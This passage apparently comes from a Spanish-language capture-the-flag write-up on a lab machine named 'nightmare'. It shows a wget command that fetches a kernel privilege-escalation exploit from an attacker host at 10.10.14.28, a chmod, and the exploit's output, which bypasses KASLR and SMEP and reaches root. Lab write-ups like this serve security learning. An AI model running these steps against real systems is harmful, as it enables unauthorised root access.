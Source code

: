 Descargamos nuestro exploit con el binario WGET.  

{% highlight zsh %}
bash-4.3$ wget http://10.10.14.28/MalwareEscPriv
wget http://10.10.14.28/MalwareEscPriv
--2019-09-09 11:48:48--  http://10.10.14.28/MalwareEscPriv
Connecting to 10.10.14.28:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23664 (23K) [application/octet-stream]
Saving to: 'MalwareEscPriv'

MalwareEscPriv      100%[===================>]  23.11K   101KB/s    in 0.2s    

2019-09-09 11:48:48 (101 KB/s) - 'MalwareEscPriv' saved [23664/23664]
{% endhighlight %}

Luego de descargar nuestro exploit, le asignamos permiso de ejecuccion y procedemos con iniciarlo.  

{% highlight bash %}
bash-4.3$ chmod +x MalwareEscPriv
chmod +x MalwareEscPriv
{% endhighlight %}

Al ejecutarlo desde el grupo decoder no funciona, pero al probar desde ftuser conseguimos el usuario con maximos privilegios (root):  

{% highlight bash %}
ftpuser@nightmare:/home/decoder/test$ ./MalwareEscPriv
./MalwareEscPriv
[.] starting
[.] checking distro and kernel versions
[~] done, versions looks good
[.] checking SMEP and SMAP
[~] done, looks good
[.] setting up namespace sandbox
[~] done, namespace sandbox set up
[.] KASLR bypass enabled, getting kernel addr
[~] done, kernel text:   ffffffffa8c00000
[.] commit_creds:        ffffffffa8ca5d20
[.] prepare_kernel_cred: ffffffffa8ca6110
[.] SMEP bypass enabled, mmapping fake stack
[~] done, fake stack mmapped
[.] executing payload ffffffffa8c17c55
[~] done, should be root now
[.] checking if we got root
[+] got r00t ^_^
root@nightmare:/home/decoder/test# whoami
whoami
root
{% endhighlight %}

### Tutorial Explicativo

<iframe src="https://www.youtube.com/embed/iSrYuKavAco" frameborder="0" allowfullscreen></iframe>

